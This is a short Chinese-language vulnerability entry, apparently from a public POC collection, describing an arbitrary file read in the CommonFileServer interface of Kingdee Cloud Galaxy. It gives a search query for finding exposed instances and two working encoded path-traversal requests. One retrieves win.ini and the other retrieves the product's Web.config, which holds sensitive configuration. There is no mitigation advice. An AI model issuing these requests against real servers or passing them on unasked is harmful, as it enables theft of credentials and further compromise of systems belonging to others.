 # 金蝶OA 云星空 CommonFileServer 任意文件读取漏洞

## 漏洞描述

金蝶OA 云星空 CommonFileServer接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件，进一步攻击服务器

## 漏洞影响

<a-checkbox checked>金蝶OA 云星空</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="金蝶云星空-管理中心"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1684495679897-2feb46d7-5571-44e5-b6d1-b5997d685a9f.png)

验证POC

```python
/CommonFileServer/c%3a%2fwindows%2fwin.ini
/CommonFileServer/C%3A%5CProgram%20Files%20%28x86%29%5CKingdee%5CK3Cloud%5CWebSite%5CWeb.config
```

![img](../../../.vuepress/public/img/1684495701547-33614a2b-d201-49e4-be6e-b0dd7aee10c3.png)